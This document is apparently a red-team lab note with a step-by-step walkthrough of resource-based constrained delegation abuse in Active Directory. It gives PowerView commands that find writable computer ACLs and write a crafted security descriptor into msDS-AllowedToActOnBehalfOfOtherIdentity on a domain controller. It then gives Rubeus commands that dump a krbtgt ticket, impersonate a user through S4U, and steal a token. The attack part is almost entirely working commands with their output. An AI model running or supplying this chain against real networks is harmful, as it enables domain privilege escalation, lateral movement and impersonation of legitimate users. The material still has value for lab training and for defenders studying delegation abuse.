 > This abuse checks whether we have writing permissions on another computers (ACLs) and overwrites the msDS-AllowedToActOnBehalfOfOtherIdentity
> We need one of the following properties: WriteProperty, GenericAll, GenericWrite or WriteDacl

> This makes it much more likely to present itself as a privilege escalation / lateral movement opportunity

We need to things:

- A target computer on which you can modify msDS-AllowedToActOnBehalfOfOtherIdentity.
- Control of another principal that has an SPN.

# First we query domain computers and read their ACL

```bash
powershell Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }

ObjectDN               : CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io (on the DC)
ActiveDirectoryRights  : Self, WriteProperty (rights here)
ObjectAceType          : All (over all properties)
ObjectSID              : S-1-5-21-569305411-121244042-2357301523-1000 (SID of object that is allowed)

```

# Check which group this is

```bash
powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
DEV\Developers
```

---

# We then use the SID of our compromised Computer and add it to msDS-AllowedToActOnBehalfOfOtherIdentity

```bash
# Get SID
powershell Get-DomainComputer -Identity wkstn-2 -Properties objectSid
objectsid
---------
S-1-5-21-569305411-121244042-2357301523-1109

# Convert the content to  binary format
$rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"
$rsdb = New-Object byte[] ($rsd.BinaryLength)
$rsd.GetBinaryForm($rsdb, 0)

# Update the value
powershell $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0); Get-DomainComputer -Identity "dc-2" | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb} -Verbose

powershell Get-DomainComputer -Identity "dc-2" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
```

---

# Next we use the WKSTN-2$ account to perform s4u impersonation

```bash
# Get tickets
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

# Dump WKSTN-2$ ticket for krbtgt
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

# Use that ticket to impersonate a user
exeute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:WKSTN-2$ /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /ticket:doIFuD[...]5JTw== /nowrap

# Use the user tgs ticket for nlamb to start a process and store the token
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGcD[...]MuaW8=
steal_token 1234
```

---

# TODO (if not elevated on machine, create one - steps)
